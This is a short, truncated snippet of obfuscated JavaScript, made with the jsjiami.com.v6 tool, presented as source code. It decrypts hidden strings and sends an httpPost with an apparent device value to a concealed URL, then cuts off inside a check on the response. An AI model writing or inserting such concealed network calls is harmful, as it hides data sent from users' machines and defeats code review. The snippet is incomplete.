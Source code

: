            var _0xodH='jsjiami.com.v6',_0xodH_=['‮_0xodH'],_0x1b1b=[_0xodH,'wr3Cs8KawqvDqm5TZxjCv8KmwpPDiMKcwqcm','D8KNF8OGYsOzbsOnw7khw5kzwpoIOBTDmcK7d35nE8OiYxzDi8O9w4jCj8KzNWXCqE1UwqcFfMKKw59xwr8Pw6Ynw4rCu8OtE8OL','w6LCisKzcARZA8O2XQ==','GxDDl8KDIcKFw6LDljxbw5rDjQ/DkQ==','jkxsxuDuTjiamKTiL.HgfKNcom.v6=='];if(function(_0x44b525,_0x4b195b,_0x3c17a9){function _0x165eaf(_0xe6fd20,_0x1aedd1,_0x4dc20b,_0x150afc,_0x397afe,_0x40a2ed){_0x1aedd1=_0x1aedd1>>0x8,_0x397afe='po';var _0x3ff058='shift',_0x1afa41='push',_0x40a2ed='‮';if(_0x1aedd1<_0xe6fd20){while(--_0xe6fd20){_0x150afc=_0x44b525[_0x3ff058]();if(_0x1aedd1===_0xe6fd20&&_0x40a2ed==='‮'&&_0x40a2ed['length']===0x1){_0x1aedd1=_0x150afc,_0x4dc20b=_0x44b525[_0x397afe+'p']();}else if(_0x1aedd1&&_0x4dc20b['replace'](/[kxxuDuTKTLHgfKN=]/g,'')===_0x1aedd1){_0x44b525[_0x1afa41](_0x150afc);}}_0x44b525[_0x1afa41](_0x44b525[_0x3ff058]());}return 0x122a12;};return _0x165eaf(++_0x4b195b,_0x3c17a9)>>_0x4b195b^_0x3c17a9;}(_0x1b1b,0xc5,0xc500),_0x1b1b){_0xodH_=_0x1b1b['length']^0xc5;};function _0x5e34(_0x3e6f28,_0x4b69f4){_0x3e6f28=~~'0x'['concat'](_0x3e6f28['slice'](0x1));var _0x4a6eac=_0x1b1b[_0x3e6f28];if(_0x5e34['qUfoPi']===undefined){(function(){var _0x1fa00d=typeof window!=='undefined'?window:typeof process==='object'&&typeof require==='function'&&typeof global==='object'?global:this;var _0x2fc5d8='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';_0x1fa00d['atob']||(_0x1fa00d['atob']=function(_0x15dc52){var _0x29ef80=String(_0x15dc52)['replace'](/=+$/,'');for(var _0x519960=0x0,_0x3752b9,_0x315a0d,_0x8785da=0x0,_0xdce494='';_0x315a0d=_0x29ef80['charAt'](_0x8785da++);~_0x315a0d&&(_0x3752b9=_0x519960%0x4?_0x3752b9*0x40+_0x315a0d:_0x315a0d,_0x519960++%0x4)?_0xdce494+=String['fromCharCode'](0xff&_0x3752b9>>(-0x2*_0x519960&0x6)):0x0){_0x315a0d=_0x2fc5d8['indexOf'](_0x315a0d);}return _0xdce494;});}());function _0x2369a7(_0x1babc9,_0x4b69f4){var _0x51dcbc=[],_0x335987=0x0,_0x457f7e,_0x34626d='',_0x2fc799='';_0x1babc9=atob(_0x1babc9);for(var _0x5882ab=0x0,_0x30636b=_0x1babc9['length'];_0x5882ab<_0x30636b;_0x5882ab++){_0x2fc799+='%'+('00'+_0x1babc9['charCodeAt'](_0x5882ab)['toString'](0x10))['slice'](-0x2);}_0x1babc9=decodeURIComponent(_0x2fc799);for(var _0x457c3d=0x0;_0x457c3d<0x100;_0x457c3d++){_0x51dcbc[_0x457c3d]=_0x457c3d;}for(_0x457c3d=0x0;_0x457c3d<0x100;_0x457c3d++){_0x335987=(_0x335987+_0x51dcbc[_0x457c3d]+_0x4b69f4['charCodeAt'](_0x457c3d%_0x4b69f4['length']))%0x100;_0x457f7e=_0x51dcbc[_0x457c3d];_0x51dcbc[_0x457c3d]=_0x51dcbc[_0x335987];_0x51dcbc[_0x335987]=_0x457f7e;}_0x457c3d=0x0;_0x335987=0x0;for(var _0x5f4b54=0x0;_0x5f4b54<_0x1babc9['length'];_0x5f4b54++){_0x457c3d=(_0x457c3d+0x1)%0x100;_0x335987=(_0x335987+_0x51dcbc[_0x457c3d])%0x100;_0x457f7e=_0x51dcbc[_0x457c3d];_0x51dcbc[_0x457c3d]=_0x51dcbc[_0x335987];_0x51dcbc[_0x335987]=_0x457f7e;_0x34626d+=String['fromCharCode'](_0x1babc9['charCodeAt'](_0x5f4b54)^_0x51dcbc[(_0x51dcbc[_0x457c3d]+_0x51dcbc[_0x335987])%0x100]);}return _0x34626d;}_0x5e34['rMSGAK']=_0x2369a7;_0x5e34['JHJCgQ']={};_0x5e34['qUfoPi']=!![];}var _0x30fa5a=_0x5e34['JHJCgQ'][_0x3e6f28];if(_0x30fa5a===undefined){if(_0x5e34['xRCEeQ']===undefined){_0x5e34['xRCEeQ']=!![];}_0x4a6eac=_0x5e34['rMSGAK'](_0x4a6eac,_0x4b69f4);_0x5e34['JHJCgQ'][_0x3e6f28]=_0x4a6eac;}else{_0x4a6eac=_0x30fa5a;}return _0x4a6eac;};var test=httpPost(_0x5e34('‮0','aHE!')+cm[_0x5e34('‫1','dtNy')]()[_0x5e34('‫2','D)cq')](),'',_0x5e34('‫3','$M6w'));;_0xodH='jsjiami.com.v6';
            if (test['data'] == 1) {